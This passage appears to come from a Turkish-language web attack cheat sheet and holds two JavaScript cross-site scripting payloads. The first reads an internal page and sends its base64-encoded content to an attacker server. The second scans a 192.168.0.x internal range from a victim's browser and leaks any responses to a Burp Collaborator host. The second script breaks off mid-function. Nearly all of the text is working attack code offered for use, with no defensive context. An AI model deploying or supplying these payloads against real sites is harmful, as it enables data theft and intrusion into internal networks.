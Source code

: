 ### Sayfa İçeriğini Çal
```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8"
var attacker = "http://10.10.14.8/exfil"
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open("GET", url, true)
xhr.send(null)
```
### İç IP'leri Bulma
```html
<script>
var q = []
var collaboratorURL =
"http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net"
var wait = 2000
var n_threads = 51

// Prepare the fetchUrl functions to access all the possible
for (i = 1; i <= 255; i++) {
q.push(
(function (url) {
return function () {
fetchUrl(url, wait)
}
})("http://192.168.0." + i + ":8080")
)
}

// Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
for (i = 1; i <= n_threads; i++) {
if (q.length) q.shift()()
}

function fetchUrl(url, wait) {
console.log(url)
var controller = new AbortController(),
signal = controller.signal
fetch(url, { signal })
.then((r) =>
r.text().then((text) => {
location =
collaboratorURL +
"?ip=" +
url.replace(/^http:\/\//, "") +
"&code=" +
encodeURIComponent(text) +
"&" +
Date.now()
})
)
.catch((e) => {
if (!String(e).includes("The user aborted a request") && q.length) {
q.shift()()
}
})

setTimeout((x) => {
```